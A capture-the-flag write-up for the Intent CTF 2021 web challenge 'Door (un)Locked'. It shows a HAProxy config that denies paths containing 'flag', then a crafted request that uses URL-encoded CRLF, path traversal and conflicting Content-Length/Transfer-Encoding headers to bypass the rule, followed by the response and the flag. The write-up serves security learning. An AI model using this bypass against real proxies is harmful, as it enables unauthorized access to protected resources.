

# Intent CTF 2021 - Writeups - Door (un)Locked

Category: Web, Points: 100



And attached file [ha.cfg](./ha.cfg)

# Door (un)Locked  - Solution

Let's browse to the web page from challenge description [http://door-unlocked.chal.intentsummit.org:8000/](http://door-unlocked.chal.intentsummit.org:8000/):


By observing the attached file [ha.cfg](./ha.cfg) we get:
```console
┌─[evyatar9@parrot]─[/intent_ctf/web/door_unlocked]
└──╼ $ cat ha.cfg
global
    daemon
defaults  
    mode    http
    timeout  client  50000
    timeout  server  50000
    timeout  connect 50000
frontend web 
    bind *:8000  
    http-request deny if { path_beg /flag }
    http-request deny if { path,url_dec -m reg ^.*/?flag/?.*$ }
    default_backend websrvs
backend websrvs 
    http-reuse always
    server srv1 flask:5000

```

As we can see, We are unable to access the path that includes the ```flag```.

This is a [HAProxy](http://www.haproxy.org/) configuration file.

To bypass the ```http-request deny``` we can use [HTTP request smugglingattack](https://portswigger.net/web-security/request-smuggling).

You can read about this attack also here: [https://gist.github.com/ndavison/4c69a2c164b2125cd6685b7d5a3c135b](https://gist.github.com/ndavison/4c69a2c164b2125cd6685b7d5a3c135b).

So we can use the [CRLF Injection request smuggling attack](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a) by sending the following request:
```http
GET /%0d%0a/../flag HTTP/1.1
Host: door-unlocked.chal.intentsummit.org:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Content-Length: 540
Transfer-Encoding: chunked
Connection: keep-alive
X-Forwarded-For: 127.0.0.1
Upgrade-Insecure-Requests: 1

```

And we get the flag:
```http
HTTP/1.1 200 OK
server: nginx/1.21.4
date: Sat, 20 Nov 2021 18:09:16 GMT
content-type: text/html
content-length: 29
last-modified: Fri, 12 Nov 2021 20:51:37 GMT
etag: "618ed3d9-1d"
accept-ranges: bytes

INTENT{Smuggl3_w1th_H4_Pr0xy}
```

```INTENT{Smuggl3_w1th_H4_Pr0xy}```.

The reason that it works is the ```HAProxy``` split the request into two different requests, one is ```/%0d%0a``` and the second one ```../flag```, Because there is no rule about path that start with ```/```  which is URL decode of ```/%0d%0a```.